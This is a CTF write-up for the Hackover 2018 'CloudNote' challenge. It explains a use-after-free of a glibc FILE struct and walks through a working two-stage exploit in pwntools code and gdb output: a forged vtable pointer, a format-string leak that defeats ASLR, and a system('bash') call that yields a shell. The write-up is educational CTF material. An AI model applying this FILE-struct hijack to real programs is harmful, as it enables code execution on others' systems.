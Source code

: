 ```yaml
---
title: "CTF Hackover 2018 - Pwn - CloudNote"
description: "A FILE struct use after free""
---
```


# Description

This challenge was created for the Hackover 2018 CTF.

```
This leightweight service hosts your notes in the Cloud.
Feel free to test our service with the guest:guest test account.
For optimal security use a recent Ubuntu Xenial or the provided libc.
```

# Vulnerability

The application has a use after free vulnerability, allowing to overwrite users `FILE` struct.
The note database is opened using `fopen();` and closed after logout, but the `user` pointer is not set to `NULL`.
As the `FILE` struct is alloceted on the heap and freed by `fclose()` the next allocated heap chunk might overwrite this structure.
If the user tries to add a long note after logout, the application segfaults.

```c
void logout() {
    if (user != NULL)
        fclose(user);
    printf("Succsess\n");

    return;
}

void note_add() {
    char *buff = NULL;
    char c;

    if (!user) {
        printf("ERROR: not logged in\n");
        return;
    }

    printf("note> ");
    fflush(stdout);
    getline(&buff, &len, stdin);
    fseek(user, 0, SEEK_END);
    fwrite(buff, strlen(buff), 1, user);
    free(buff);
}

```

`getline()` writes user input to the heap, overwriting the `FILE` struct that is passed to `fseek()` and `fwrite()`.
The `FILE` struct contains a pointer to a jumptable, that holds handlers for various operations(read, write, seek, etc.), the corresponding `_IO_FILE` struct is defined in `libio.h`

# RIP Control

First we have to trigger the UAF:
```
  ____ _                 _ _   _       _       
 / ___| | ___  _   _  __| | \ | | ___ | |_ ___ 
| |   | |/ _ \| | | |/ _` |  \| |/ _ \| __/ _ \
| |___| | (_) | |_| | (_| | |\  | (_) | ||  __/
 \____|_|\___/ \__,_|\__,_|_| \_|\___/ \__\___|
                                               
-----------------------------------------------
Because it's a great Idea!
cmd> login
Username: guest
Password: guest
Succsess
cmd> logout
Succsess
cmd> note add
note> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)A..........
[...]
Stopped reason: SIGSEGV
0x00007ffff7a82f20 in __GI_fseek (fp=0x6039d0, offset=0x0, whence=0x2) at fseek.c:35
[...]
gdb-peda$ pattern search
[...]
Registers point to pattern buffer:
[RDI] --> offset 288 - size ~203
```

The Programm will crashes and a quick look at the registers shows, that `$rdi` points at offset 288 of our buffer, which is the start of our `FILE` struct.
Let's prepare our exploit, starting with a peda pattern:

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
exploit = "A" * 288 + fstruct
```
Will result in the following crash:
```
   0x7f80dd35489e <fseek+14>:   jne    0x7f80dd3548f9 <fseek+105>
   0x7f80dd3548a0 <fseek+16>:   mov    r8,QWORD PTR [rdi+0x88]
   0x7f80dd3548a7 <fseek+23>:   mov    r10,QWORD PTR fs:0x10
=> 0x7f80dd3548b0 <fseek+32>:   cmp    r10,QWORD PTR [r8+0x8]
   0x7f80dd3548b4 <fseek+36>:   je     0x7f80dd3548f4 <fseek+100>
   0x7f80dd3548b6 <fseek+38>:   mov    esi,0x1
   0x7f80dd3548bb <fseek+43>:   cmp    DWORD PTR [rip+0x332e1e],0x0        # 0x7f80dd6876e0 <__libc_multiple_threads>
   0x7f80dd3548c2 <fseek+50>:   je     0x7f80dd3548cd <fseek+61>

gdb-peda$ pattern search
Registers contain pattern buffer:
r8+0 found at offset 136
```
This is a pointer to `_IO_FILE._lock` and should point to a writable location containing 0x00.
We choose a random address in the BSS segment.
```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
exploit = "A" * 288 + fstruct
```
```
   0x7f252345533e <_IO_seekoff_unlocked+30>:    js     0x7f25234553b0 <_IO_seekoff_unlocked+144>
   0x7f2523455340 <_IO_seekoff_unlocked+32>:    je     0x7f2523455379 <_IO_seekoff_unlocked+89>
   0x7f2523455342 <_IO_seekoff_unlocked+34>:    mov    rax,QWORD PTR [rdi+0xa0]
=> 0x7f2523455349 <_IO_seekoff_unlocked+41>:    cmp    QWORD PTR [rax+0x40],0x0
   0x7f252345534e <_IO_seekoff_unlocked+46>:    je     0x7f2523455379 <_IO_seekoff_unlocked+89>
   0x7f2523455350 <_IO_seekoff_unlocked+48>:    cmp    edx,0x1
   0x7f2523455353 <_IO_seekoff_unlocked+51>:    je     0x7f2523455436 <_IO_seekoff_unlocked+278>
   0x7f2523455359 <_IO_seekoff_unlocked+57>:    mov    rdi,rbx
gdb-peda$ pattern search
Registers contain pattern buffer:
RAX+0 found at offset: 160  
[...]
```
Lets set this pointer to the same location and see what happens:
```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
exploit = "A" * 288 + fstruct
```
```
   0x466904 <_IO_seekoff_unlocked+84>:  mov    rsi,QWORD PTR [rsp]
   0x466908 <_IO_seekoff_unlocked+88>:  mov    rax,QWORD PTR [rbx+0xd8]
   0x46690f <_IO_seekoff_unlocked+95>:  mov    rdi,rbx
=> 0x466912 <_IO_seekoff_unlocked+98>:  mov    rax,QWORD PTR [rax+0x48]
   0x466916 <_IO_seekoff_unlocked+102>: add    rsp,0x10
   0x46691a <_IO_seekoff_unlocked+106>: pop    rbx
   0x46691b <_IO_seekoff_unlocked+107>: jmp    rax
   0x46691d <_IO_seekoff_unlocked+109>: nop    DWORD PTR [rax]
gdb-peda$ pattern search
Registers contain pattern buffer:
RAX+0 found at offset: 216
[...]
Registers point to pattern buffer:
[RDI] --> offset 0 - size ~142
```
The code will now jump to `rax+0x48` which is copied from offset 216 in our buffer!
In addition `rdi` also points to our forged `FILE` struct, so we can also controll the first argument.
Lets write a pointer to `printf@got-0x48` at offset 216:

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(got_printf-0x48))
exploit = "A" * 288 + fstruct
```

```
note> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)A..........
AAA0X0.0000000E6C4BP-1...............
cmd>
```

Nice! The code prints our `FILE` struct directly on the screen.

# Exploit
We can now replace our peda pattern with lots of `%p|` to leak the heap and libc base.

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = "%p|" * 64
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(got_printf-0x48))
exploit = "A" * 288 + fstruct
```

```
note> %p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|.............
(nil)|0x2|0x3|0x6020f0|(nil)|0x2454420|0x401037|0x24554b0|0x6dde37d37eab4000|0x7ffc1f28a680|...
|0x1c|0x1|0x7ffc1f28afce|%`cmd>
```

As we broke ASLR, we are now ready to execute `system()` in the second stage.
This time, we have to replace the call to `printf()` with a call to `system()`.
As the adress of `system();` is not in memory, we have to write it to an unsed location in the `FILE` struct.
We can use the beginning of our `FILE` struct to pass any argument.

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = "%p|" * 64
fstruct = set_data(fstruct, 0, "bash\x00")
fstruct = set_data(fstruct, 32, pwn.p64(libc + system_offset))
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(heap + 5616 - 0x48))
exploit = "A" * 288 + fstruct
```
And we got a shell ;)

```
cat flag
hackover2018{4lw4y2_Null_y0uR_P01Nt3R}
```


# Files
- [exploit.py](exploit.py)
- [cloudnote.c](cloudnote.c)
- [cloudnote](cloudnote)
- [libc.so.6](libc.so.6)
- [ld-2.23.so](ld-2.23.so)
- [Dockerfile](Dockerfile)
- [Makefile](Makefile)
